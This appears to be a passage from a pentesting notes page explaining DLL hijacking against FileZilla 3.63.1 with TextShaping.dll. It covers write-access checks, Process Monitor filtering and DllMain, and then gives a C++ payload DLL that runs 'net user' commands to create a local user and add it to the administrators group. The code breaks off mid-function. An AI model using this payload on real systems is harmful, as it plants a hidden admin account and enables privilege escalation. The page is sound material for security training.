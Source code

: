 Filezilla `3.63.1` has a [DLL hijacking vulnerability](https://www.exploit-db.com/exploits/51267) related to the `TextShaping.dll` file. We first need to check if we have write access to the DLL's location.

```powershell
# Write a file to the binary's directory
> echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
# List the file's contents
> type 'C:\FileZilla\FileZilla FTP Client\test.txt'
test
```

The typical process of checking which DLLs are used by an application is via the **Process Monitor** tool, aka as `procmon`. Once we have a list of DLLs used by the service binary, we can check their permissions and if they can be replaced with a malicious DLL.

{% hint style="warning" %}
To start the Process Monitor we need **elevated privileges**. If we don't, we can copy the service binary to a local machine instead.
{% endhint %}

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252Fd67CI5VK212zdmL6Gvkg%252Fprocmon_1.png%3Falt%3Dmedia%26token%3D8403bd8d-da67-49e2-954c-af1fef9267df&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=17324cd2&#x26;sv=2" alt=""><figcaption></figcaption></figure>

After filtering the results, we can click _Clear_ (red bin icon) and start the process we are interested in. Since we are interested specifically in the `TextShaping.dll` we can create another filter targeting that.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FBSP0wbThY6RBe4sGUAI2%252Fprocmon_2.png%3Falt%3Dmedia%26token%3Dd8d03059-412c-4724-96e1-8659f8c565da&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=6debbcd0&#x26;sv=2" alt=""><figcaption></figcaption></figure>

Based on the above screenshot, the binary tries to load the `TextShaping.dll` from `C:\Filezilla\Filezilla FTP Client\` and it can't find it. It then proceeds to search and find it from `C:\Windows\System32\`.&#x20;

Each DLL can have an optional **entry point function** named `DllMain`, which is executed when processes or threads attach the DLL. This function generally contains four cases named:

1. `DLL_PROCESS_ATTACH`
2. `DLL_THREAD_ATTACH`
3. `DLL_THREAD_DETACH`
4. `DLL_PROCESS_DETACH`

These cases handle situations when the DLL is loaded or unloaded by a process or thread. They are commonly used to perform initialization tasks for the DLL or tasks related to exiting the DLL. If a DLL doesn't have a `DllMain` entry point function, it only provides resources. We are interested in the `DLL_PROCESS_ATTACH` section of the code, since this is used when a process is loading the DLL.

{% tabs %}
{% tab title="1. Payload" %}
{% code title="dll_hijacking.cpp" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
```